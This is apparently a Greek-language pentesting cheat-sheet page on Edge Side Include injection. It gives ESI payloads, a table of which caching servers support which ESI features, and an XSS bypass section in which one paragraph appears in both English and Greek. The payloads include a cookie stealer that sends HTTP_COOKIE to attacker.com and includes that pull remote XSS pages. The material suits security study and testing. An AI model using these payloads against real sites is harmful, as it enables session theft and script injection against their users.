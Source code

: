 ```javascript
<esi:include src=http://attacker.com/XSSPAYLOAD.html>

// Cookie Stealer (bypass httpOnly flag)
<esi:include src=http://attacker.com/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```
### Εκμετάλλευση ESI

[Η GoSecure δημιούργησε](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) έναν πίνακα για να κατανοήσει τις πιθανές επιθέσεις που μπορούμε να δοκιμάσουμε εναντίον διαφορετικού λογισμικού που υποστηρίζει ESI, ανάλογα με την υποστηριζόμενη λειτουργικότητα:

* **Includes**: Υποστηρίζει την οδηγία `<esi:includes>`
* **Vars**: Υποστηρίζει την οδηγία `<esi:vars>`. Χρήσιμο για την απόφυγη των XSS φίλτρων
* **Cookie**: Τα cookies του εγγράφου είναι προσβάσιμα από τη μηχανή ESI
* **Απαιτούνται επικεφαλίδες από τον πάνω ροή**: Οι εφαρμογές surrogate δεν θα επεξεργαστούν δηλώσεις ESI εκτός αν η πάνω ροή παρέχει τις επικεφαλίδες
* **Λευκή λίστα κεντρικού διακομιστή**: Σε αυτήν την περίπτωση, οι ESI περιλήψεις είναι δυνατές μόνο από επιτρεπόμενους διακομιστές, καθιστώντας δυνατή, για παράδειγμα, την SSRF μόνο εναντίον αυτών των διακομιστών

|         **Λογισμικό**         | **Includes** | **Vars** | **Cookies** | **Απαιτούνται επικεφαλίδες από τον πάνω ροή** | **Λευκή λίστα κεντρικού διακομιστή** |
| :--------------------------: | :----------: | :------: | :---------: | :-------------------------------------------: | :-----------------------------: |
|            Squid3            |      Ναι     |    Ναι   |     Ναι     |                    Ναι                        |              Όχι               |
|         Varnish Cache        |      Ναι     |    Όχι   |     Όχι     |                    Ναι                        |              Ναι               |
|            Fastly            |      Ναι     |    Όχι   |     Όχι     |                    Όχι                        |              Ναι               |
| Akamai ESI Test Server (ETS) |      Ναι     |    Ναι   |     Ναι     |                    Όχι                        |              Όχι               |
|          NodeJS esi          |      Ναι     |    Ναι   |     Ναι     |                    Όχι                        |              Όχι               |
|         NodeJS nodesi        |      Ναι     |    Όχι   |     Όχι     |                    Όχι                        |            Προαιρετικό           |

#### XSS

Η ακόλουθη οδηγία ESI θα φορτώσει ένα αυθαίρετο αρχείο μέσα στην απόκριση του διακομιστή
```xml
<esi:include src=http://attacker.com/xss.html>
```
#### Παράκαμψη προστασίας XSS του πελάτη

In some cases, the client-side XSS protection mechanisms implemented in web applications may not be sufficient to prevent XSS attacks. However, there are techniques that can be used to bypass these protections and successfully execute XSS payloads.

Σε ορισμένες περιπτώσεις, οι μηχανισμοί προστασίας XSS που έχουν εφαρμοστεί στις εφαρμογές ιστού του πελάτη ενδέχεται να μην είναι επαρκείς για να αποτρέψουν επιθέσεις XSS. Ωστόσο, υπάρχουν τεχνικές που μπορούν να χρησιμοποιηθούν για να παρακαμφθούν αυτές οι προστασίες και να εκτελεστούν με επιτυχία φορτία XSS.
